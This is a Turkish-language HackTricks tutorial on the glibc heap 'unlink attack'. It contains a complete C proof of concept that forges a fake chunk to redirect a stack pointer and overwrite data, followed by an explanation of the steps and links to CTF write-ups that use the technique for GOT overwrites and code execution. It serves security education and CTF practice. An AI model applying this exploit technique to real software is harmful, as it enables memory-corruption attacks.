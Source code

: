 # Unlink Attack

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **Bize katılın** 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) veya **bizi** **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## Temel Bilgiler

Bu saldırı keşfedildiğinde, çoğunlukla bir WWW (Write What Where) sağlamaktaydı, ancak bazı **kontroller eklendi** ve bu da saldırının yeni versiyonunu daha ilginç, daha karmaşık ve **işe yaramaz** hale getirdi.

### Kod Örneği:

<details>

<summary>Kod</summary>
```c
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

// Altered from https://github.com/DhavalKapil/heap-exploitation/tree/d778318b6a14edad18b20421f5a06fa1a6e6920e/assets/files/unlink_exploit.c to make it work

struct chunk_structure {
size_t prev_size;
size_t size;
struct chunk_structure *fd;
struct chunk_structure *bk;
char buf[10];               // padding
};

int main() {
unsigned long long *chunk1, *chunk2;
struct chunk_structure *fake_chunk, *chunk2_hdr;
char data[20];

// First grab two chunks (non fast)
chunk1 = malloc(0x8000);
chunk2 = malloc(0x8000);
printf("Stack pointer to chunk1: %p\n", &chunk1);
printf("Chunk1: %p\n", chunk1);
printf("Chunk2: %p\n", chunk2);

// Assuming attacker has control over chunk1's contents
// Overflow the heap, override chunk2's header

// First forge a fake chunk starting at chunk1
// Need to setup fd and bk pointers to pass the unlink security check
fake_chunk = (struct chunk_structure *)chunk1;
fake_chunk->size = 0x8000;
fake_chunk->fd = (struct chunk_structure *)(&chunk1 - 3); // Ensures P->fd->bk == P
fake_chunk->bk = (struct chunk_structure *)(&chunk1 - 2); // Ensures P->bk->fd == P

// Next modify the header of chunk2 to pass all security checks
chunk2_hdr = (struct chunk_structure *)(chunk2 - 2);
chunk2_hdr->prev_size = 0x8000;  // chunk1's data region size
chunk2_hdr->size &= ~1;        // Unsetting prev_in_use bit

// Now, when chunk2 is freed, attacker's fake chunk is 'unlinked'
// This results in chunk1 pointer pointing to chunk1 - 3
// i.e. chunk1[3] now contains chunk1 itself.
// We then make chunk1 point to some victim's data
free(chunk2);
printf("Chunk1: %p\n", chunk1);
printf("Chunk1[3]: %x\n", chunk1[3]);

chunk1[3] = (unsigned long long)data;

strcpy(data, "Victim's data");

// Overwrite victim's data using chunk1
chunk1[0] = 0x002164656b636168LL;

printf("%s\n", data);

return 0;
}

```
</details>

* Saldırı, tcaches kullanıldığında çalışmaz (2.26'dan sonra)

### Hedef

Bu saldırı, **bir parçanın işaretçisini kendisinden 3 adres önceki bir adrese işaret edecek şekilde değiştirmeye** olanak tanır. Eğer bu yeni konum (işaretçinin bulunduğu yerin çevresi) diğer kontrol edilebilir tahsisler / yığın gibi ilginç şeyler içeriyorsa, bunları okumak/yazmak mümkün olabilir ve daha büyük bir zarar vermek için kullanılabilir.

* Eğer bu işaretçi yığında bulunuyorsa, çünkü artık kendisinden 3 adres önceye işaret ediyor ve kullanıcı bunu okuyup değiştirebiliyorsa, yığından hassas bilgileri sızdırmak veya hatta dönüş adresini (belki) canary'ye dokunmadan değiştirmek mümkün olacaktır.
* CTF örneklerinde, bu işaretçi diğer tahsislere işaret eden bir işaretçi dizisinde yer almaktadır, bu nedenle, 3 adres önceye işaret edecek şekilde ayarlandığında ve okunup yazılabildiğinde, diğer işaretçilerin başka adreslere işaret etmesi sağlanabilir.\
Kullanıcı diğer tahsisleri de okuyup/yazabildiğinden, bilgi sızdırabilir veya yeni adresleri rastgele konumlarda (GOT gibi) yazabilir.

### Gereksinimler

* Bazı özelliklere değerler vererek birkaç parça oluşturmak için bir bellek üzerinde (örneğin yığın) kontrol.
* Sahte parçanın işaretçilerini ayarlamak için yığın sızıntısı.

### Saldırı

* İki parça vardır (chunk1 ve chunk2)
* Saldırgan chunk1'in içeriğini ve chunk2'nin başlıklarını kontrol eder.
* Chunk1'de saldırgan sahte bir parçanın yapısını oluşturur:
* Koruma önlemlerini aşmak için `size` alanının doğru olduğundan emin olur, böylece `corrupted size vs. prev_size while consolidating` hatasından kaçınır.
* ve sahte parçanın `fd` ve `bk` alanları, chunk1 işaretçisinin saklandığı yere -3 ve -2 ofsetleri ile işaret ediyor, böylece `fake_chunk->fd->bk` ve `fake_chunk->bk->fd` gerçek chunk1 adresinin bulunduğu bellek (yığın) konumuna işaret eder:

<figure><img src="../../.gitbook/assets/image (1245).png" alt=""><figcaption><p><a href="https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit">https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit</a></p></figcaption></figure>

* Chunk2'nin başlıkları, önceki parçanın kullanılmadığını ve boyutun içerdiği sahte parçanın boyutu olduğunu gösterecek şekilde değiştirilir.
* İkinci parça serbest bırakıldığında, bu sahte parça bağlantısı kesilir:
* `fake_chunk->fd->bk` = `fake_chunk->bk`
* `fake_chunk->bk->fd` = `fake_chunk->fd`
* Daha önce `fake_chunk->fd->bk` ve `fake_chunk->bk->fd` aynı yere (chunk1'in saklandığı yığın konumu) işaret edecek şekilde ayarlanmıştı, bu nedenle geçerli bir bağlı listeydi. **Her ikisi de aynı konuma işaret ettiğinden**, yalnızca sonuncusu (`fake_chunk->bk->fd = fake_chunk->fd`) **etki** gösterecektir.
* Bu, **yığındaki chunk1 işaretçisini yığında 3 adres önce saklanan adrese (veya byte'lara) yazacak şekilde** **aşındıracaktır**.
* Bu nedenle, bir saldırgan chunk1'in içeriğini tekrar kontrol edebilirse, **yığın içinde yazma** yeteneğine sahip olacak ve potansiyel olarak dönüş adresini atlayarak canary'yi geçip yerel değişkenlerin değerlerini ve işaretlerini değiştirebilecektir. Hatta yığında saklanan chunk1 adresini, saldırgan tekrar chunk1'in içeriğini kontrol edebilirse, farklı bir konuma yazacak şekilde değiştirebilir.
* Bunun mümkün olduğunu unutmayın çünkü **adresler yığında saklanmaktadır**. Risk ve istismar, **sahte parçaya ait adreslerin nerede saklandığına** bağlı olabilir.

<figure><img src="../../.gitbook/assets/image (1246).png" alt=""><figcaption><p><a href="https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit">https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit</a></p></figcaption></figure>

## Referanslar

* [https://heap-exploitation.dhavalkapil.com/attacks/unlink\_exploit](https://heap-exploitation.dhavalkapil.com/attacks/unlink\_exploit)
* CTF'de bir unlink saldırısı bulmak garip olsa da, bu saldırının kullanıldığı bazı yazılımlar burada:
* CTF örneği: [https://guyinatuxedo.github.io/30-unlink/hitcon14\_stkof/index.html](https://guyinatuxedo.github.io/30-unlink/hitcon14\_stkof/index.html)
* Bu örnekte, yığın yerine malloc edilmiş adreslerin bir dizisi vardır. Burada bir parça tahsis edebilmek için unlink saldırısı gerçekleştirilir, böylece malloc edilmiş adresler dizisinin işaretçilerini kontrol edebilmek mümkündür. Ardından, bu adreslerdeki parçaların içeriğini değiştirmeye olanak tanıyan başka bir işlev vardır, bu da adresleri GOT'a işaret etmeyi, işlev adreslerini sızdırmak ve RCE için değiştirmeyi sağlar.
* Başka bir CTF örneği: [https://guyinatuxedo.github.io/30-unlink/zctf16\_note2/index.html](https://guyinatuxedo.github.io/30-unlink/zctf16\_note2/index.html)
* Önceki örnekte olduğu gibi, tahsislerin adreslerinin bir dizisi vardır. İlk tahsise işaret eden adresi dizinin başlangıcından birkaç konum önceye işaret edecek şekilde bir unlink saldırısı gerçekleştirmek mümkündür ve bu tahsisi yeni konumda aşındırmak mümkündür. Bu nedenle, diğer tahsislerin işaretçilerini atoi'nin GOT'una işaret edecek şekilde aşındırmak, libc sızıntısını elde etmek için yazdırmak ve ardından atoi GOT'u bir gadget adresi ile aşındırmak mümkündür.
* Unlink saldırısına çok benzer bir açığı istismar eden özel malloc ve free işlevleri ile CTF örneği: [https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw17\_minesweeper/index.html](https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw17\_minesweeper/index.html)
* FD ve BK işaretçilerini kontrol etmeye olanak tanıyan bir taşma vardır. Ayrıca, yığın exec bitine sahiptir, bu nedenle bir yığın adresini sızdırmak ve GOT'dan bir işlevi bir shellcode ile yığın parçasına işaret etmek mümkündür.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
